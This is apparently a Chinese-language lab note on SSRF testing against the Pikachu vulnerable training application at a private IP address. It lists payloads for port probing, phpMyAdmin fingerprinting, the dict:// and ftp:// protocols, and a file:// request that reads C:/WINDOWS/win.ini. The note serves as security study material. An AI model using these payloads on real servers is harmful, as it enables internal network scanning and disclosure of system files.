





SSRF

靶机：192.168.214.142

攻击机：127.0.0.1

端口探测

输入：http://192.168.214.142:3306/

Web指纹探测

输入：http://192.168.214.142/phpMyAdmin

dict协议

输入：dict://192.168.214.142:3306/info

FTP协议

输入：ftp://192.168.214.142/

file协议

http://192.168.214.142/pikachu/vul/ssrf/ssrf_curl.php?url=file:///C:/WINDOWS/win.ini

